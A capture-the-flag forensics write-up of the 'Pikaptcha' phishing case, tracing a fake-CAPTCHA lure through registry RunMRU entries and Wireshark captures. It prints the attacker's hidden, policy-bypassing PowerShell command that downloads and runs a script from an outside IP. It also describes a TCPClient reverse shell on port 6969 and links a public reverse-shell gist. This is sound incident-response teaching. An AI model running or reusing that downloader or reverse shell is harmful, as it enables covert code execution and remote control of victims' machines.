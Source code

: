 # Pikaptcha

![image](https://github.com/user-attachments/assets/e29f4a11-7ca9-4957-881f-859e6d749c7a)


> Write-up author: jon-brandy

## Lessons Learned:
1. Using registry explorer to load user's registry hive.
2. Reviewing malicious powershell that acts as a downloader.

## SCENARIO:
<p align="justify">Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.</p>

## STEPS:
1. In this case, we're tasked to investigate a recent phising attack.
2. A person named Happy Grunwald contacted Alonzo, a system administrator, regarding an issue with downloading the latest version of Microsoft Office.
3. Happy reported that he received an email instructing him to update Microsoft Office via a link. After clicking the link, he was prompted to solve a CAPTCHA, but no download page appeared afterward.
4. Recognizing this as a potential phishing attempt, Alonzo became suspicious of the attacker’s tactics. He contacted the security team, who promptly isolated the victim’s machine and provided us with network traffic data and endpoint artifacts for analysis.

![image](https://github.com/user-attachments/assets/8e6a4129-e597-4e74-8094-b4c111b3cf51)


> 1ST QUESTION --> ANS: `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`

![image](https://github.com/user-attachments/assets/a78977c0-5c0a-48a5-8b36-473255407f4a)


5. We're given many registry hives and prefetch folder, it's kinda painful to analyze windows registry hives without knowing the context and location of what is our interest.
6. To review recently executed command, we can start analyzing from `RunMRU` registry key for **happy grunwald** user.
7. To analyze the registry hives I used `registry explorer`. But actually you can use `registry viewer` or just mount it using `winregfs`. To load the registry hive for user **happy grundwald**, simply load the `NTUSER.DAT` of **happy grundwald**.

![image](https://github.com/user-attachments/assets/7858c1ff-0032-44dd-9f25-eaa84c5689e5)


> RESULT IN REGISTRY EXPLORER

![image](https://github.com/user-attachments/assets/72e2be4e-ba96-4edc-a1ca-1f5427eb33c6)



8. Again, to reduce the pain by traverse the folder manually, instead we can use the search bar to find **RunMRU**.

![image](https://github.com/user-attachments/assets/bc3c7289-8ebd-4375-99fb-885d9f3873dc)


9. Notice that we found a powershell command execution from a remote source. This is a hint for a malicious activity.

> Malicious Powershell Script

```pwsh
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"\1
```

#### NOTES REGARDING THE POWERSHELL EXECUTION FOUND:

`-NoP` flag (No Profile), is used to prevent powershell from loading the user's profile scripts (it can be used to reduce startup time). `-Noni` (Non-Interactive) flag is used to run the powershell script in a non-interactive mode. `-W hidden` flag is used to hides the powershell window, thus making the executiion invisible to the user.

The biggest red flag is `-Exec Bypass`, this flag used to override the system's execution policy, allowing the script to run regardless of any policy settings that might prevent it. This flag is actually is the biggest red flag if it is executed by non legitimate user.

`-Command` flag is used to specify the powershell command, `IEX` (Invoke Expression) this cmdlet is used to evaluate or runs the expression passed to it. `(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')` this part creates a new web client object to download the script from the remote server and this script content is passed to IEX which runs it in the current powershell session.

In short, this powershell command is used to download a malicious powersell script file --> `office2024install.ps1`. 


11. Anyway if we correlate this with cyber kill chain stages, this stage is at the **installation** stage --> stage where the attacker tried to gain persistence.
12. Great! Simple as that now we identified the full command that was run to download and execute the stager.


> 2ND QUESTION --> ANS: `2024-09-23 05:07:45`

![image](https://github.com/user-attachments/assets/ca12a9cd-dee8-4948-9431-11f2e50dd65e)

13. Again, we can identify the timestamp of the execution at the `registry explorer`. It is shown clear.

![image](https://github.com/user-attachments/assets/4f95b2d4-c53a-4bc7-a3cd-6643fde35cab)


> 3RD QUESTION --> ANS: `579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de`

![image](https://github.com/user-attachments/assets/672f5b38-997b-4467-a94d-1db9dc5a9676)


14. Let's shift our focus to the captured network traffic to exfitrate the powershell script, because we cannot download the powershell script from registry explorer, because **registry hive actually just stored a configuration data not actual files**.

> Wireshark

![image](https://github.com/user-attachments/assets/8976e815-ee06-417d-99f1-cb244dd43177)


15. Actually now it's much easier, because we already identified the threat actor IP and the malicious file downloaded from the remote server. We can simply export the objects from wireshark.

![image](https://github.com/user-attachments/assets/72ee81ba-eef1-4c43-a545-2037e7ea1c53)


16. To see the script contens, simply follow the related packet stream.
17. Based from the result, you can see that it contains an encoded powershell command.

![image](https://github.com/user-attachments/assets/d04f43b8-0857-4ab7-970b-2cbeb3d19cb4)

> DECODED VALUES

![image](https://github.com/user-attachments/assets/4150bf57-4c19-453b-a7e7-69ac31805a2b)

18. Interesting! Not a geek in powershell script, but `System.Net.Sockets.TCPClient` syntax is used to send and receive data.
19. So if we correlate this again to next stages in cyber kill chain, current stage is **Command and Control**, this could be the backdoor that the attacker tried to use then.
20. Searching on the internet regarding reverse shell payload for powershell, found this github gist:

![image](https://github.com/user-attachments/assets/d88123eb-c241-4bbf-96c1-ea476eb26941)

21. It is exactly the same! Anyway let's get the hash IOC.

> Hash IOC

![image](https://github.com/user-attachments/assets/cf656d59-2ab0-4dc7-bced-96f7bfc3fc23)


> 4TH QUESTION --> ANS: 6969

![image](https://github.com/user-attachments/assets/a0bf7148-2f6b-422d-bffb-22e92ccbb706)


22. The port is identified previously as we analyzed the C2 script. The port is `6969`.


> 5TH QUESTION --> ANS: 403

![image](https://github.com/user-attachments/assets/4d9b46be-84f4-4669-aa44-9be1ce7f280b)

23. Now to identify how many seconds was the reverse shell connection established between C2 and the victim's workstation, we can start by reviewing the next TCP protocol which communicated on port 6969.

![image](https://github.com/user-attachments/assets/060d3ba2-063c-4b94-97cd-5c98be7ed4c7)


23. Instead calculating it manually, I used a library named **datetime** from python.

> SCRIPT TO CALCULATE THE TIMESTAMP

```py
from pwn import *
import os
from datetime import datetime

os.system('clear')

st = datetime.strptime("05:07:48", "%H:%M:%S")
end = datetime.strptime("05:14:31", "%H:%M:%S")

diff = (end - st).total_seconds()
log.success(f'RESULT --> {diff}')
```

> RESULT

![image](https://github.com/user-attachments/assets/d636c4d9-b56e-4e2b-a5ed-c033f108a315)


> 6TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/13f0b3f6-8563-4606-b356-4dd0d806f481)


24. Upon reviewing the threat actor activities, found that the attacker tried to install another powershell script.

![image](https://github.com/user-attachments/assets/4b33e136-c25b-4e23-bf2b-1aa3506cda93)


#### NOTES:

Bloodhound is an open source tool used in Active Directory (AD) environment to map relationships and permissions. This tool help threat actor in reconnaisance to identify potential attack paths for privesc and lateral movement.

![image](https://github.com/user-attachments/assets/b1e890ad-b0f9-4a71-8b1c-58ba64ebd240)


# IMPORTANT LINKS:

```
https://ericzimmerman.github.io/#!index.md
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
https://github.com/BloodHoundAD/BloodHound
```
